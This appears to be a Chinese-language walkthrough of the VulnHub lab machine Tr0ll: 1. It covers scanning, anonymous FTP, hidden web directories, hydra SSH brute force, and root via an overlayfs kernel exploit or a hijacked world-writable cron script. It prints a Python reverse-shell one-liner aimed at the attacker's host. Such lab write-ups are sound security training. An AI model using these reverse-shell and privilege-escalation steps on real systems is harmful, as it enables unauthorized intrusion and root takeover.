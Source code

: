 # Tr0ll: 1

https://www.vulnhub.com/entry/tr0ll-1,100/

difficulty: Beginner

Finish Date：2024-4-9

## IP

192.168.10.154

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.10.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/secret
```

看到开放了 21 ftp 端口，并且可以匿名登陆，先看看里面有什么有价值的信息。发现了一个 lol.pcap 抓包文件，下载到 kali，用 wireshark 打开，看看有什么内容。Follow Tcp 后发现其中下载了一个名为 secret_stuff.txt 的文件，其中的内容对应为：

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!
```

sup3rs3cr3tdirlol 看上去好像是个目录，或者是个密码，尝试在 80 端口上访问看看。http://192.168.10.154/sup3rs3cr3tdirlol/ 发现了一个名为 roflmao 的二进制文件，看看其中内容。

```
strings roflmao

Find address 0x0856BF to proceed  <-- 0x0856BF 可能是有一定特殊含义
```

盲猜可能是一个目录，尝试在 web 服务上访问这个目录：http://192.168.10.154/0x0856BF/ 进一步发现了 2 个有意思的文件夹。

http://192.168.10.154/0x0856BF/good_luck/which_one_lol.txt 对应的看上去像是用户名。

http://192.168.10.154/0x0856BF/this_folder_contains_the_password/Pass.txt 这个可能是密码。

尝试用获得的用户名和密码，使用 hydra 对目标机器进行 ssh 爆破，密码不对，再次看密码文件夹的提示，有没有可能文件名 Pass.txt 就是密码，再次尝试。果然是这个密码：

```
[22][ssh] host: 192.168.10.154   login: overflow   password: Pass.txt
```

进行登陆，显示的 tty 不太友好，先升级 tty : python -c 'import pty; pty.spawn("/bin/bash")'。过了一会系统把会话中断了，看样子系统上有计划任务，5 分钟就中断会话。

## flag

### 方式 1：

uname -a 查看到系统内核为：Linux troll 3.13.0 ，搜索了以下内核对应的漏洞为 'overlayfs' Local Privilege Escalation
将 c 代码下载到目标机器的/tmp 目录，然后进行编译，最后运行得到了 root 用户，获得了 flag：

```
# cat proof.txt
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc

```

### 方式 2：

看到目标系统每隔 5 分钟会将会话中断，应该是计划任务 root 用户调用的，所以可以看看找找这个执行的脚本，我们有没有写入权限。

先查看下 crontab 的日志文件，可能有脚本执行提示信息：

```
cat /var/log/cronlog

*/2 * * * * cleaner.py
```

找到 cleaner.py 所在的路径为：/lib/log/cleaner.py 这个文件我们有完全写入的权限，就可以把我们的反弹 shell 操作替换其中的清理/tmp 目录的操作，获得 root 的 shell。

```
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
    <-- 这里换成 import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' -->
except:
	sys.exit()

-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

计划任务配置信息可能存在的几个地方：

```
/etc/crontab           <-- 维护Linux操作系统所需的系统任务

/etc/cron.d/
/etc/cron.daily/
/etc/cron.hourly/
/etc/cron.monthly/
/etc/cron.weekly/

/var/spool/cron/crontabs/root  <-- 用户cron任务的配置文件存放目录，最后这个是用户名，每一个用户如果配置了 crontab -e 都会生成一个对应用户名的计划任务文件
```

查看到 /var/spool/cron/crontabs/root 或者执行 crontab -l 的内容：

```
*/5 * * * * /usr/bin/python /opt/lmao.py          <-- 每5分钟调用一次
*/2 * * * * /usr/bin/python /lib/log/cleaner.py   <-- 每2分钟调用一次，这里就会调用上面我们修改后的py脚本
```

/opt/lmao.py 的内容为：

```
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()

```
